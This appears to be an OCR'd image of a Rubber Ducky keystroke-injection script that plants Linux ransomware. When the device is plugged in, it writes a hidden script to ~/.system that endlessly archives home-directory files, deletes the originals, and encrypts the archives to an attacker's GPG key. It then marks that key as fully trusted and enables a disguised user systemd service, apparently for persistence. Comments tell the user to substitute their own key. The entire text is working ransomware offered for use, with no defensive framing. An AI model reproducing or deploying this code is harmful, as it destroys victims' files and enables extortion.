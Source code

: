 ```
STRING mkdir ~/.system && touch ~/.system/drans && vi ~/.system/drans
ENTER
STRING i
DELAY 200
STRING #!/bin/sh
ENTER
STRING cd ~/
ENTER
STRING encrypt(){                                                                                                     
ENTER
STRING          dirFile=$(ls | head -n 1)
ENTER
STRING          tar cf ~/.ransom/$dirFile.tar.gz --exclude='.' --exclude='..' --exclude='.ransom' --remove-files $dirFile
ENTER
REM replace drans with name of your key
STRING          gpg -e -r drans -o ~/.ransom/$dirFile.tar.gpg ~/.ransom/$dirFile.tar.gz && rm -rf ~/.ransom/$dirFile.tar.gz 
ENTER
STRING }
ENTER
STRING for (( ; ; ))
ENTER
STRING do
ENTER
STRING        encrypt
ENTER
STRING done
DELAY 100
ESC
STRING :wq
ENTER
DELAY 100
STRING chmod +x ~/.system/drans
ENTER
DELAY 100
REM change drans to name of your key
STRING gpg --edit-key drans
ENTER
DELAY 100
STRING trust
ENTER
DELAY 100
STRING 5
ENTER 
DELAY 50
STRING y
ENTER
CTRL c
DELAY 100
STRING gpg --check-trustdb
ENTER
STRING gpg --update-trustdb
ENTER
DELAY 100
STRING systemctl --user enable --now libSystemIO.service
ENTER
DELAY 100
STRING systemctl --user start libSystemIO.service
ENTER
DELAY 100
DELAY 50
```